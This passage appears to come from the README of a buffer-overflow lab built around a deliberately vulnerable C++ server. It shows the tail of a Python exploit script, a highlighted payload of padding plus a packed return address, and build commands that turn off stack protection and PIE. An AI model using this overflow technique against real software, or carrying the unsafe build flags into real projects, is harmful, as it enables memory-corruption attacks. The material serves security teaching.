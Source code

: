 ```python
    print("\n--- Output from Victim Program ---")
    print(stdout_output)
    print("--- Error Output from Victim (if any) ---")
    print(stderr_output)
    
    if "CONTROL TAKEN" in stdout_output:
        print("\n[+] Vulnerability successfully exploited!")
    else:
        print("\n[-] Exploitation failed.")

if __name__ == "__main__":
    main()
```

The important part to pay attention to in the complete code is,
```python
padding = b'A' * PADDING_SIZE
overwrite_address = struct.pack("<Q", TARGET_ADDRESS)
payload = padding + overwrite_address
```
So we create the payload here and actually the whole thing ends here. After writing our exploitation code, we should get a message like this.

## Linux Compatibility

This lab is designed to work on both Linux and macOS systems:

### Compilation for Linux
```bash
# Special compilation script for Linux
./compile_linux.sh

# Or manual compilation
g++ -o compiled/zafiyetli_sunucu source_code/zafiyetli_sunucu.cpp -no-pie -g -fno-stack-protector
```

### Requirements
- **Linux:** `g++`, `build-essential`, `libc6-dev`
- **macOS:** `g++` (Xcode Command Line Tools)
- **Python:** `python3`, `pwntools`

### Testing
```bash
# Run all tests
./test_lab.sh

# Run exploit
python3 source_code/exploit.py
```

The exploit automatically detects system architecture (32-bit/64-bit) and uses the appropriate packing function.
